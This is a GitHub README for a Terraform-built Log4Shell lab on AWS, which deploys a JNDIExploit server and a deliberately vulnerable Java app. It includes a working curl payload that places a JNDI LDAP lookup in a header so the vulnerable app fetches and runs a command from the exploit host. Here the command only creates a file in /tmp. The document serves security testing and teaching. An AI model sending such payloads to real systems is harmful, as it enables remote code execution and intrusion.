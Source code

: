 # terraform-log4shell

Log4Shell POC Using Terraform

# About

This terraform creates two instances on a VPC in AWS Cloud:

- [JNDIExploit](https://github.com/feihong-cs/JNDIExploit)
- [Vulnerable-App](https://github.com/christophetd/log4shell-vulnerable-app)

Please ensure that you have configured aws cli with your Access key ID and Secret access key.
In order to ssh into the ec2 instances, please update ssh public key in terraform before running terraform apply

```bash
terraform init
terraform plan
terraform apply --auto-approve
```

# Exploitation Steps

_Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk**._

- Trigger the exploit using:

```bash
curl ${log4shellapp-ip}:8080 -H 'X-Api-Version: ${jndi:ldap://${jndiexploit-ip}:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

- To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in log4shellapp's container. First ssh into log4shellapp ec2 instance using your private key and run:

```bash
sudo docker exec -ti vulnerable-app ls /tmp
```
